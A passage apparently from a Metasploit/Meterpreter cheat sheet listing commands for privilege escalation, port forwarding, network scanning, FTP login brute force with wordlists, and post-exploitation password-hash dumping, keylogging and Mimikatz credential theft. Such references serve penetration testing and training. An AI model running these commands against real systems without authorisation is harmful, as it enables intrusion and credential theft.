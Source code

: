```bash
```

#### Network Commands
```bash
# Show network interfaces
ipconfig

# Show routing table
route

# Port forwarding
portfwd add -l 3389 -p 3389 -r 10.10.10.10
```

#### Privilege Escalation
```bash
# Get system privileges
getsystem

# Load PowerShell extension
load powershell

# Execute PowerShell commands
powershell_execute "Get-LocalUser"
```

### Metasploit Modules

#### Auxiliary Modules
```bash
# Port scanning
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.0/24
run

# SMB enumeration
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.1.10
run

# FTP scanning
use auxiliary/scanner/ftp/ftp_login
set RHOSTS 192.168.1.10
set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
run
```

#### Post-Exploitation Modules
```bash
# Dump hashes
use post/windows/gather/hashdump
set SESSION 1
run

# Keylogger
use post/windows/capture/keylog_recorder
set SESSION 1
run

# Mimikatz
use post/windows/gather/credentials/mimikatz
set SESSION 1
run
```